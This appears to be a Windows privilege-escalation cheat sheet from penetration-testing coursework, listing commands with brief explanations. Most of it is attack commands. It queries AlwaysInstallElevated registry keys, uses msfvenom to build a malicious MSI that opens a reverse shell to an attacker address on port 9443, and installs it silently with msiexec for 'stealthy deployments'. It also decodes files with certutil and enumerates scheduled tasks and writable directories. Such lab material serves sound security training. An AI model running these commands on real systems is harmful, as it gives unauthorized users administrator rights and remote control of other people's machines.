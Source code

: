 #### Decode file with certutil
```cmd
certutil -decode encodedfile file2
```
- Decodes a previously encoded file, restoring it to its original state.

#### Query for always install elevated registry key (1)
```cmd
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```
- Checks for the presence of the `AlwaysInstallElevated` registry key under the current user, indicating that MSI files run with elevated privileges.

#### Query for always install elevated registry key (2)
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
- Checks for the `AlwaysInstallElevated` policy at the system level, which if enabled, allows all users to install MSI packages with administrative rights.

#### Generate a malicious MSI package
```cmd
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```
- Creates an MSI package containing a reverse shell payload, which if executed, opens a remote shell to the attacker's machine.

#### Executing an MSI package from command line
```cmd
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```
- Silently installs an MSI package without user interaction or system restart, useful for stealthy deployments of tools or payloads.

#### Enumerate scheduled tasks
```cmd
schtasks /query /fo LIST /v
```
- Lists all scheduled tasks in a verbose list format, providing insights into potential vectors for persistence or privilege escalation.

#### Enumerate scheduled tasks with PowerShell
```powershell
Get-ScheduledTask | select TaskName,State
```
- Retrieves scheduled tasks using PowerShell, offering a cleaner, more scriptable interface for enumeration.

#### Check permissions on a directory
```cmd
.\accesschk64.exe /accepteula -s -d C:\Scripts\
```
- Uses `accesschk` to assess the permissions of a directory, useful for finding writable locations or misconfigurations.
